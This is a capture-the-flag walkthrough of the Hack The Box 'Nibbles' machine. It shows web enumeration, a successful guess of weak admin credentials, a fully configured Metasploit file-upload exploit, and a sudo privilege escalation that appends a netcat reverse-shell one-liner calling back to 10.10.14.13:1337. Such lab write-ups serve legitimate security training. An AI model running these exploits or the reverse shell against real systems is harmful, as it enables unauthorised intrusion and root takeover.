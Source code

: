 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Nibbles

## Summary

[Nibbles](https://app.hackthebox.com/machines/121) is an <mark style="color:green;">easy-rated</mark> box which serves as an accessible, introductory-level machine, likely marking the initial foray into practical penetration testing for many Hack The Box users. Upon conducting **directory busting** on the web server, a wealth of information surfaces, including a login portal. By experimenting with various **default or weak credential** combinations, we successfully breach the system as administrators. Consolidating our position involves capitalizing on a **known vulnerability** exploitable via **Metasploit**. Subsequently, by scrutinizing the compromised user's **sudo permissions**, we escalate our privileges, ultimately achieving full control over the system.

<table><thead><tr><th width="85" align="right">Step</th><th>Action</th><th>Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td><a href="../../../tools/tools/web/dirbusting/fuff.md">fuff</a></td><td>Directories, credentials</td></tr><tr><td align="right">2</td><td>Vulnerability search</td><td><a href="https://www.metasploit.com/">Metasploit</a></td><td>Foothold</td></tr><tr><td align="right">3</td><td>System enumeration</td><td><a data-footnote-ref href="#user-content-fn-1">LoTL</a></td><td>Box Compromise</td></tr></tbody></table>

## Recon

### Port Scanning

Starting with our [usual port-scan](../../../tools/tools/port-scanners/nmap.md#nmap-scan), let us know that only 2 ports are listening on the box (Figure 1):

1. An SSH service (`22`) that might be the way to establish our foothold.
2. An HTTP web server (`80`) which probably represent the way to get some credentials.

```bash
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

<figure><img src="../../../.gitbook/assets/nibbles_nmap.png" alt=""><figcaption><p>Figure 1: Services listening on the Nibbles machine.</p></figcaption></figure>

### Web Enumeration

Visiting the web server via our browser, we encounter an extremely simple web page with a `Hello world!` message (Figure 2).

<figure><img src="../../../.gitbook/assets/nibbles_home.png" alt=""><figcaption><p>Figure 2: The web server's homepage.</p></figcaption></figure>

One of the first things in our [web checklist](../../../tools/tools/web/web-checklist.md) is to check the page's source code. By doing that with Burp Suite, we find a mention to the `/nibbleblog/` directory (Figure 3), which seems to be just an empty blog (Figure 4).

<figure><img src="../../../.gitbook/assets/nibble_nibbleblog.png" alt=""><figcaption><p>Figure 3: Checking the home page's source code.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/nibble_blog.png" alt=""><figcaption><p>Figure 4: The <code>/nibbleblog/</code> directory.</p></figcaption></figure>

Checking what technologies this blog uses with [`whatweb`](../../../tools/tools/web/whatweb.md) we see that it sets the `PHPSESSID` cookie, thus, we can infer that is uses PHP.

{% code overflow="wrap" %}
```bash
whatweb http://10.10.10.75/nibbleblog/
http://10.10.10.75/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]
```
{% endcode %}

## Foothold

### Directory Busting

Next, we can perform a directory search to see if `/nibbleblog` contains any interesting subdirectories. This reveals a lot of promising results (Figure 5).

{% code overflow="wrap" %}
```bash
ffuf -u http://10.10.10.75/nibbleblog/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php -c -ac -ic
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/nibbles_fuff.png" alt=""><figcaption><p>Figure 5: Directory searching with <code>ffuf</code>.</p></figcaption></figure>

By visiting the directories, we find a lot of clues to move forward.

* `/admin.php` is a login form which we could try default credentials (e.g. `admin:admin`) or brute form with [`hydra`](../../../tools/tools/web/hydra.md#http)
* `/README` reveals the blog's version (`4.0.3`), its name (`Coffee`), and its release date (`2014-04-01`) which seems be to way outdated (the box was released in 2018).
* `/update.php` contain refers to `/content/private/config.xml` which looks like a configuration file and might contain credentials.

<figure><img src="../../../.gitbook/assets/nibbles_dirs.png" alt=""><figcaption><p>Figure 6: Visiting the directories from our browser.</p></figcaption></figure>

### Weak Credentials

Let's start by trying default credentials. Using [`creds`](../../../tools/tools/web/creds.md) does not return anything, so we have to try some pairs manually. After failing with some, the `admin:nibbles` credentials seem to work (Figure 7).&#x20;

<figure><img src="../../../.gitbook/assets/nibbles_dashboard.png" alt=""><figcaption><p>Figure 7: Logging into the nibbleblog dashboard.</p></figcaption></figure>

### Known Vulnerabilities

In addition, searching for known vulnerabilities for "_Nibbleblog v4.0.3_" results in [this](https://www.exploit-db.com/exploits/38489) Metasploit module. Jumping into Metasploit, configuring and running the module gives us a meterpreter shell back through which we can read the user flag 🚩 (Figure 8).

```bash
# Launching metasploit
msfconsole -q
# Searching for the nibbleblog module
msf6 > search nibbleblog
# Using the module
msf6 > use 0
# Seeing its configuration options
msf6 exploit(multi/http/nibbleblog_file_upload) > show options
# Configuring the module
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.10.10.75
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost tun0
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog/
msf6 exploit(multi/http/nibbleblog_file_upload) > run
```

<figure><img src="../../../.gitbook/assets/nibbles_meterpreter.png" alt=""><figcaption><p>Figure 8: Catching a meterpreter shell.</p></figcaption></figure>

## Privilege Escalation

### Sudo Exploitation

One of the first things we always do upon establishing our foothold, is checking if the compromised user can run anything with elevated privileges (`sudo`) (Figure 9.2). In this case, the `nibbler` user seems to be able to execute `monitor.sh`, which is located within the `zip` file at its home directory (Figure 9.3-9.5).&#x20;

Next, we can generate (Figure 10) and append a one-liner reverse shell at the `monitor.sh` script (Figure 9.6), start a listener on our attack host (Figure 9.8), and then execute the script with `sudo` using its full path (Figure 9.9). Since, the script will run with elevated privileges, we will be able to catch a root shell and read the `root.txt` flag 🚩(Figure 9.10).&#x20;

{% code overflow="wrap" %}
```bash
# drop into a shell
meterpreter > shell
# check sudo permissions
sudo -l
# unzip the file
unzip personal.zip
# move into the script's directory
cd personal/stuff
# append the reverse shell code to the script
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.13 1337 >/tmp/f' >> monitor.sh
# execute the script as sudo
sudo /home/nibbler/personal/stuff/monitor.sh
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/nibbles_root.png" alt=""><figcaption><p>Figure 9: Exploiting <code>nibbler</code>'s permissions and reading the root flag.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/nibbles_revshells.png" alt=""><figcaption><p>Figure 10: Generating a one-liner bash reverse shell code.</p></figcaption></figure>





[^1]: Living of The Land
